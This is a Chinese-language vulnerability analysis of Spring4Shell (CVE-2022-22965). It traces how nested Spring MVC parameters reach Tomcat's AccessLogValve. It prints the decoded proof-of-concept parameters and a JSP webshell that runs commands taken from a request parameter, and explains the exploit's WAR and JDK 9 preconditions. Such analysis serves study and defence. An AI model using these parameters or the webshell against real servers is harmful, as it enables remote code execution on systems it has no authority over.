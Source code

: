 ```yaml
---
title: Spring 远程命令执行漏洞（CVE-2022-22965）
date: 2022-5-8
tags:
 - Vulnerabilities
 - 笔记
categories:
 - Vulnerabilities
---
```


### 原理

springMVC支持嵌套参数绑定。假设请求参数名为`foo.bar.baz.qux`，对应`Controller`方法入参为`Param`，则有以下的调用链：

```Java
Param.getFoo()
    Foo.getBar()
        Bar.getBaz()
            Baz.setQux() // 注意这里为set
```

Tomcat的`Valve`用于处理请求和响应，通过组合了多个`Valve`的`Pipeline`，来实现按次序对请求和响应进行一系列的处理。其中`AccessLogValve`用来记录访问日志access_log。Tomcat的`server.xml`中默认配置了`AccessLogValve`，所有部署在Tomcat中的Web应用均会执行该`Valve`，内容如下：

```XML
<Valve className="org.apache.catalina.valves.AccessLogValve" directory="logs"
               prefix="localhost_access_log" suffix=".txt"
               pattern="%h %l %u %t &quot;%r&quot; %s %b" />
```

下面列出配置中出现的几个重要属性： - directory：access_log文件输出目录。 - prefix：access_log文件名前缀。 - pattern：access_log文件内容格式。 - suffix：access_log文件名后缀。 - fileDateFormat：access_log文件名日期后缀，默认为`.yyyy-MM-dd`。

### 漏洞分析

对POC进行解码后可以得到以下5对参数：

1. pattern参数

   - 参数名：`class.module.classLoader.resources.context.parent.pipeline.first.pattern`
   - 参数值：`%{c2}i if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i`

   这里利用的就是嵌套参数解析，最终得到完整的调用链为

   ```Java
   User.getClass()
       java.lang.Class.getModule()
           java.lang.Module.getClassLoader()
               org.apache.catalina.loader.ParallelWebappClassLoader.getResources()
                   org.apache.catalina.webresources.StandardRoot.getContext()
                       org.apache.catalina.core.StandardContext.getParent()
                           org.apache.catalina.core.StandardHost.getPipeline()
                               org.apache.catalina.core.StandardPipeline.getFirst()
                                   org.apache.catalina.valves.AccessLogValve.setPattern()
   ```

   可以看到，`pattern`参数最终对应`AccessLogValve.setPattern()`，即将`AccessLogValve`的`pattern`属性设置为`%{c2}i if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i`，也就是access_log的文件内容格式。

   最终可以得到`AccessLogValve`输出的日志实际内容如下（已格式化）：

   ```Java
   <%
   if("j".equals(request.getParameter("pwd"))){
       java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
       int a = -1;
       byte[] b = new byte[2048];
       while((a=in.read(b))!=-1){
           out.println(new String(b));
       }
   }
   %>
   ```

   很明显，这是一个JSP webshell。这个webshell输出到了哪儿？名称是什么？能被直接访问和正常解析执行吗？我们接下来看其余的参数。

2. suffix参数

   - 参数名：`class.module.classLoader.resources.context.parent.pipeline.first.suffix`
   - 参数值：`.jsp`

   `suffix`参数最终将`AccessLogValve.suffix`设置为`.jsp`，即access_log的文件名后缀。

3. directory参数

   - 参数名：`class.module.classLoader.resources.context.parent.pipeline.first.directory`
   - 参数值：`webapps/ROOT`

   `directory`参数最终将`AccessLogValve.directory`设置为`webapps/ROOT`，即access_log的文件输出目录。`webapps/ROOT`目录是Tomcat Web应用根目录。部署到目录下的Web应用，可以直接通过`http://localhost:8080/`根目录访问。

4. prefix参数

   - 参数名：`class.module.classLoader.resources.context.parent.pipeline.first.prefix`
   - 参数值：`tomcatwar`

   `prefix`参数最终将`AccessLogValve.prefix`设置为`tomcatwar`，即access_log的文件名前缀

5. fileDateFormat参数

   * 参数名：`class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat`
   * 参数值：空

   `fileDateFormat`参数最终将`AccessLogValve.fileDateFormat`设置为空，即access_log的文件名不包含日期。

### 总结

通过请求传入的参数，利用SpringMVC参数绑定机制，控制了Tomcat AccessLogValve的属性，让Tomcat在webapps/ROOT目录下输出定制的“访问日志” tomcatwar.jsp，该访问日志实际上为一个jsp webshell。

### 关键点

#### 1. web应用以war包部署

从java.lang.Module到org.apache.catalina.loader.ParallelWebappClassLoader是将调用链转移到tomcat，并最终利用AccessLogValve输出webshell的关键。而ParallelWebappClassLoader在Web应用以war包部署到Tomcat中时使用到。

如果是以jar包的形式运行web应用，classLoader嵌套参数会被解析为`org.springframework.boot.loader.LaunchedURLClassLoader`，而LaunchedURLClassLoader中并没有getResources方法，调用链也就断掉了。

#### 2. jdk版本 >= 1.9

在`AbstractNestablePropertyAccessor nestedPa = getNestedPropertyAccessor(nestedProperty);`调用的过程中，Spring做了一道防御：Spring使用`org.springframework.beans.CachedIntrospectionResults`缓存并返回Java Bean中可以被`BeanWrapperImpl`使用的`PropertyDescriptor`。在`CachedIntrospectionResults`第289行构造方法中

![image-20220730224959264](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220730224959.png)
当Bean的类型为`java.lang.Class`时，不返回`classLoader`和`protectionDomain`的`PropertyDescriptor`。Spring在构建嵌套参数的调用链时，会根据`CachedIntrospectionResults`缓存的`PropertyDescriptor`进行构建：

![image-20220730225039250](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220730225039.png)

不返回，也就意味着`class.classLoader...`这种嵌套参数走不通，即形如下方的调用链：

```Java
Foo.getClass()
    java.lang.Class.getClassLoader()
        BarClassLoader.getBaz()
            ......
```

这在JDK<=1.8都是有效的。但是在JDK 1.9之后，Java为了支持模块化，在`java.lang.Class`中增加了`module`属性和对应的`getModule()`方法，自然就能通过如下调用链绕过判断：

```Java
Foo.getClass()
    java.lang.Class.getModule() // 绕过
        java.lang.Module.getClassLoader()
            BarClassLoader.getBaz()
                ......
```

这就是为什么本漏洞利用条件之二，jdk>=1.9。

### 参考

[Spring 远程命令执行漏洞（CVE-2022-22965）原理分析和思考](https://paper.seebug.org/1877/)